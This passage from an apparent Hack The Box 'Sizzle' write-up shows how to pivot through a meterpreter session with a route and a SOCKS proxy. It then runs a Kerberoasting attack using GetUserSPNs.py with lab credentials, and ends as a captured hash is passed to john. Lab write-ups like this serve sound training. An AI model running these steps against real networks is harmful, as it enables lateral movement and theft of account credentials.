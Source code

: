 #### Now we have a `meterpreter` session, we can route the internal subnet, use a proxy then use `GetUserSPNs.py` and see if any user is kerberoastable. This technique is covered [here](https://www.blackhillsinfosec.com/a-toast-to-kerberoast/)
#### First thing is to configure `proxychains` to use port 8080 :
`/etc/proxychains.conf`
![](/images/hackthebox/sizzle/39.png)
#### Then we will use `auxiliary/server/socks4a` to add the route and set up the proxy :
![](/images/hackthebox/sizzle/40.png)
#### `route add 10.10.10.0 255.255.255.0 1` this adds a route of the whole internal subnet where `1` is the session number.
#### Now we are ready. Let's kerberoast !
`proxychains GetUserSPNs.py -request -dc-ip 10.10.10.103 HTB.LOCAL/amanda:Ashare1972`
![](/images/hackthebox/sizzle/41.png)
#### User `mrlky` was kerberoastable and we got a hash, let's pass it to `john` :